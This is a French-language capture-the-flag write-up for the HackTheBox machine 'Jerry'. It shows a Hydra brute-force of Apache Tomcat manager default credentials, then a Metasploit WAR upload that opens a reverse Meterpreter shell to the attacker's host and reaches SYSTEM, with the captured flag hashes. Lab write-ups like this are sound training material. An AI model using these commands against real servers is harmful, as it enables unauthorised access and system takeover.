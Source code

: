 # Solution du CTF Jerry de HackTheBox

Introduction
------------

Ce CTF a été de loin la pire expérience sur HackTheBox : un challenge ultra simple pourri par d'autres utilisateurs qui réinitialisaient les mots de passe non-stop, sans compter les reset fréquents de la machine lancés par les autres utilisateurs excédés.  

Blitzkrieg
----------

On a un Apache Tomcat/7.0.88 tournant sur le port 8080. Le système semble être un Microsoft Windows Server 2012.  

On trouve facilement [une liste de mots de passe par défaut](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown) pour l'accès au Tomcat.  

On peut bruteforcer l'accès à la section manager via le module Metasploit *scanner/http/tomcat\_mgr\_login* ou encore via Hydra en espérant que le mot de passe n'a pas été préalablement changé :  

```plain
$ hydra -P  /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt -L /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt http-get://10.10.10.95:8080/manager/html
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-07-01 13:28:10
[DATA] max 16 tasks per 1 server, overall 16 tasks, 42 login tries (l:6/p:7), ~3 tries per task
[DATA] attacking http-get://10.10.10.95:8080//manager/html
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-07-01 13:28:13
```

Dès lors on peut exploiter le Tomcat par l'upload d'un fichier WAR spécifique, ce que fait très bien Metasploit pour nous :  

```plain
msf exploit(multi/http/tomcat_mgr_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.35:443
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying 8XnD7mo2yl64uHauGnpw62S1lJuMdv...
[*] Executing 8XnD7mo2yl64uHauGnpw62S1lJuMdv...
[*] Undeploying 8XnD7mo2yl64uHauGnpw62S1lJuMdv ...
[*] Sending stage (53837 bytes) to 10.10.10.95
[*] Meterpreter session 1 opened (10.10.14.35:443 -> 10.10.10.95:49192) at 2018-07-07 09:34:26 +0200

meterpreter > getuid
Server username: JERRY$
meterpreter > pwd
C:\apache-tomcat-7.0.88
meterpreter > sysinfo
Computer    : JERRY
OS          : Windows Server 2012 R2 6.3 (amd64)
Meterpreter : java/windows
meterpreter > shell
Process 1 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>

C:\Users\Administrator\Desktop\flags>whoami
whoami
nt authority\system
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```


*Published November 17 2018 at 18:43*